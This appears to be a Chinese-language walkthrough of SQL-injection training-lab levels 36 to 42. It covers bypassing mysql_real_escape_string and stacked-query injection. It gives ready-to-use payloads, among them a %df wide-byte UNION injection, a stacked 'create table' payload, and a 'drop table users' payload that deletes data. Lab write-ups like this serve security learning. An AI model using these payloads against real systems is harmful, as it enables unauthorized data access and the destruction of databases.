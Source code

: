 用了`mysql_real_escape_string`来过滤输入，转义 SQL 语句中使用的字符串中的特殊字符。

下列字符受影响：

+ \x00
+ \n
+ \r
+ \
+ '
+ "
+ \x1a

如果成功，则该函数返回被转义的字符串。如果失败，则返回 false。

套路同上

### 37 MySQL_real_escape_string

`uname=1%df'+union+select+database(),2%23&passwd=1`

post传参,依然是用Burpsuite,套路同上

### 38 stacked Query

引出堆叠注入的内容，没有其他特殊的

`1'; create table test like users;%23`

`1'; drop table users;%23`

## Stacked Injections

### 39 stacked Query Intiger type

同38 改成整型

`1; create table test like users;%23`

...

### 40 stacked Query String type Blind

经典换汤不换药

闭合改成 `')`

### 41 stacked Query Intiger type blind

同上 改成整型 多了个报错而已。

### 42 Stacked Query error based 

账号被过滤 密码没有，在密码里写堆叠注入

账号随便写

密码:`a' create table test like users;%23`
